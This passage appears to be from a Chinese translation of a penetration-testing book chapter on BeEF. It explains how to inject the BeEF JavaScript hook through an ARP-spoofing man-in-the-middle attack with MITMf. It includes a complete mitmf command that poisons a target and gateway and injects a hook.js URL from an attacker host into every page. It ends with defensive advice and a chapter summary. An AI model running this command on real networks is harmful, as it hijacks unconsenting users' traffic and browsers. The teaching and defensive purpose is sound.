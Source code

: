 我们前面讨论过的注射牛肉钩的第三种方法是通过 MITM 攻击。只有当您控制了受害者和服务器之间的网络时，才可能发生 MITM 攻击。一旦成功，它可以用来利用大量的客户端，并且可以在用户试图访问的每个网站中注入牛肉钩。

我们将使用 MITMf 工具通过 ARP 欺骗技术执行中间人攻击，该工具还包括插件，可以将 JavaScript 钩子 URL 注入通过它的每个网站请求。

ARP 欺骗是一种技术，攻击者利用伪造的 ARP 映射毒害计算机的 ARP 缓存，以操纵两台主机之间的流量。有关 ARP 欺骗攻击的详细说明，请参见[http://www.arppoisoning.com/how-does-arp-poisoning-work/](http://www.arppoisoning.com/how-does-arp-poisoning-work/) 。

MITMf 工具不随 Kali Linux 一起安装。必须使用以下命令单独安装：

```
apt-get install mitmf

```

确保在`/etc/apt/`目录中的`sources.list`文件中设置了正确的存储库，因为安装该工具需要一些额外的文件来解决依赖性问题，可以在以下链接中找到这些文件：

*   `deb http://http.kali.org/kali kali main non-free contrib`
*   `deb http://security.kali.org/kali-security kali/updates main contrib non-free`
*   `deb-src http://http.kali.org/kali kali main non-free contrib`
*   `deb-src http://security.kali.org/kali-security kali/updates main contrib non-free`

安装该工具后，确定受害者的 IP 地址和默认网关。Kali Linux 机器将充当中间人，并重定向来自两个端点的流量。

完整的命令将执行 ARP 欺骗，并将 MITMf 配置为注入 URL，如下所示：

```
mitmf –i eth0 --arp --spoof --gateway 192.168.1.123 --target 192.168.1.22 --inject --js-url http://192.168.1.70:3000/hook.js

```

此命令将生成以下输出：

![Injecting the BeEF hook using MITM](../Images/image01219.jpeg)

只要客户端发送一个网页请求，您就会看到工具界面上生成的一些活动。在 BeEF UI 面板中，您会发现浏览器处于联机状态，随时可以接管。通过 MITM 方法，您可以在每个网站中注入 BeEF-hook，您可以认为，当代码在从服务器返回的途中拦截流量时，会注入代码，而客户端浏览器无法识别注入的数据。

识别客户端 HTML 文件中是否注入了牛肉钩的唯一方法是在浏览器中按*Ctrl*+*U*查看来源。当代码在文本编辑器中打开时，搜索关键字`hook.js`（或仔细查看整个文件）。您肯定会在其中找到注入的 JavaScript URL。

BeEF 执行大部分攻击的方式是躲在引擎盖下，没有终端用户的大量交互和参与。Web 浏览器是一种广泛使用的软件，每天都会发现其中的漏洞，这只会增加此工具在您军械库中的重要性。BeEF 中包含的大多数攻击模块都使用合法的 JavaScript 来查询 web 浏览器和操作系统。尽管 Chrome 和 Internet Explorer 都有反 XSS 过滤器，但它们并不是抵御此类攻击的万无一失的防御措施。

阻止这些攻击的方法是教育用户上网时要小心，避免访问可疑网站。这些攻击大多是通过网络钓鱼活动开始的，试图诱使用户访问注射了牛肉钩的网站。您还需要清理您组织的网站上的所有 XSS 和注入缺陷，否则您自己的网站将被注入牛肉钩。对于基于 MITM 的攻击，请确保网络层得到了适当的保护，否则您将面临比使用牛肉钩进行网站注射更大的问题。

# 总结

在本章中，我们首先研究了各种流行的社会工程攻击。我们看到了通过社交攻击用户是多么容易被利用。然后，我们讨论了社会工程工具包和其中的不同模块，涵盖了各种各样的社会攻击。接下来，我们深入研究了浏览器攻击工具包，了解了如何使用该工具包攻击 XSS 漏洞，而无需编写一行 JavaScript。我们涵盖了 BeEF 的所有主要模块，并确定了不同的使用方法。

在下一章中，我们将讨论一种称为 AJAX 的新 web 技术以及与之相关的安全问题。
